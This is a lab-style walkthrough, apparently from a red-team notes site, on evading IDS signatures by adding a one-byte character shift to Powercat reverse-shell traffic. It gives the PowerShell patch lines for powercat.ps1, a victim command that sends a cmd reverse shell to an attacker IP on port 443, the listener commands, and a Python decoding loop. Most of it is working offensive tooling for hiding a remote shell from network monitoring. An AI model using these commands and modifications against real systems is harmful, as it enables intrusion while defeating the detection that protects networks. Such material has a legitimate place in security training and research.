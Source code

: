 # Bypassing IDS Signatures for Simple Reverse Shells

Most Intrusion Detection Systems \(IDS\) have signatures that can catch simple reverse shells going across the network. 

The thing that will get you flagged usually is the classic cmd prompt banner:

```text
listening on [any] 443 ...
connect to [192.168.2.79] from ws01 [192.168.2.149] 56079
Microsoft Windows [Version 10.0.17763.475]
(c) 2018 Microsoft Corporation. All rights reserved.
```

This can usually be bypassed relatively easily with some simple traffic obfuscation. This quick lab demonstrates just that.

## Environment and Setup

* A compromised Windows system capable of running powershell scripts
* Netcat will be replaced with a Powercat - NC implementation in powershell
* Attacker's linux machine

## Encoding Responses

Since we want to obfuscate the outgoing traffic from the victim system to the attacking system, we need to obfuscate the responses generated by the reverse shell.

Let's modify powercat to achieve this. Int this lab, I will use a simple obfuscation technique - every ascii character will be shifted to the right by 1, so `a` will become `b`, `b->c`, `c->d` and so on, but base64 or any other encoding mechanisms could work.

In powercat.ps1, let's find the function `ReadData_CMD` and add a new line \(576 from the below graphic\):

```csharp
$Data = $Data | % {[byte]$_+1}
```

![](../../.gitbook/assets/annotation-2019-05-18-121935.png)

With the modified powercat, let's try establishing a reverse shell and catch it on the other end and see what happens:

```csharp
# victim
powercat -c 192.168.2.79 443 -e cmd

#attacker 
powercat -l -p 443 -v
```

Below shows the incoming reverse shell, but it's of course not readable since we shifted all the characters by one. Although this is enough to bypass IDS signatures relying on the cmd prompt banner crossing the network, the shell on itself is not very useful since we cannot read the results:

![](../../.gitbook/assets/annotation-2019-05-18-123445.png)

## Decoding Responses

We need to decode the responses by using the code we used earlier and make sure that we are now subtracting 1 rather than adding, so that `d` becomes `c`, `c->b`, `b->a` and so on:

```csharp
$Data = $Data | % {[byte]$_-1}
```

In powercat.ps1, find the function `WriteData_Console` and add the code just below the parameter declaration:

![](../../.gitbook/assets/annotation-2019-05-18-124925.png)

If we try establishing the reverse shell now, we can see it gets decoded nicely on the attacking system running powercat listener on Windows:

![](../../.gitbook/assets/annotation-2019-05-18-124837.png)

If we inspect the traffic, we confirm that the traffic is encoded:

![](../../.gitbook/assets/annotation-2019-05-18-130428.png)

## Decoding Responses in Linux

If we are listening for a shell in netcat on a Linux box with no powershell \(my kali was giving me a hard time trying to install powershell\), we need to hack together a filthy python loop that will do the decoding for us first:

{% code-tabs %}
{% code-tabs-item title="decode.py@kali" %}
```python
#!/usr/bin/python3
import os, time

global decoded
while 1:
    decoded = ""
    encodedFile = open("myfile", "rb+")
    i = 0
    last = ""
    encodedBytes = encodedFile.read()

    for byte in encodedBytes:
        if byte > 0 and byte <= 127:
            byte -= 1
        else:
            byte = 10

        if byte != last:
            decoded += chr(byte)
            last = byte
        i += 1

    if len(decoded) > 1:
        print(decoded)
    os.system("echo > myfile")
    time.sleep(1)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's launch the netcat listener on a linux box and pipe the output to `tee` so it can be put to a file `myfile`

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
nc -lvvp 443 | tee myfile
```
{% endcode-tabs-item %}
{% endcode-tabs %}

In another terminal, we need to launch the `decoder.py` which will read the `myfile` every second and will decode its content and wipe it:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
./decoder.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-18-132903.png)

We can now send the reverse shell back from the windows machine and see how it works:

* Right - a compromised Windows system that will send a reverse shell to the attacker using powercat
* Top left - the reverse shell comes in, responses are encoded. This is where we can issue commands
* Bottom left - reverse shell responses are decoded

![](../../.gitbook/assets/revshell.gif)

